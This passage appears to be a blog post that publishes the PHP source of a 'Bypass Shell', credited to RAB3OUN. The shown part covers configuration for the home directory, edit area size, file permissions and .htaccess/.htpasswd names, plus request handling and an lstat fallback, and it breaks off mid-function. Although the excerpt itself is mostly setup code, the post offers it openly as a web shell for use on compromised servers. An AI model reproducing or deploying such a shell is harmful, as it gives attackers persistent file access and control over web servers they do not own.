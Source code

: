 ```yaml
---
title: Bypass Shell source code
author: admin
layout: post
categories:
  - PHP
---
```



### Bypass Shell source code

#### Coded By RAB3OUN


{% highlight php linenos %}

<?php

$lang = 'auto';

/* Homedir:
 * For example: './' - the script's directory
 */
$homedir = './';

/* Size of the edit textarea
 */
$editcols = 80;
$editrows = 25;

/* -------------------------------------------
 * Optional configuration (remove # to enable)
 */

/* Permission of created directories:
 * For example: 0705 would be 'drwx---r-x'.
 */
# $dirpermission = 0705;

/* Permission of created files:
 * For example: 0604 would be '-rw----r--'.
 */
# $filepermission = 0604;

/* Filenames related to the apache web server:
 */
$htaccess = '.htaccess';
$htpasswd = '.htpasswd';

/* ------------------------------------------------------------------------- */

if (get_magic_quotes_gpc()) {
  array_walk($_GET, 'strip');
  array_walk($_POST, 'strip');
  array_walk($_REQUEST, 'strip');
}

if (array_key_exists('image', $_GET)) {
  header('Content-Type: image/gif');
  die(getimage($_GET['image']));
}

if (!function_exists('lstat')) {
  function lstat ($filename) {
    return stat($filename);
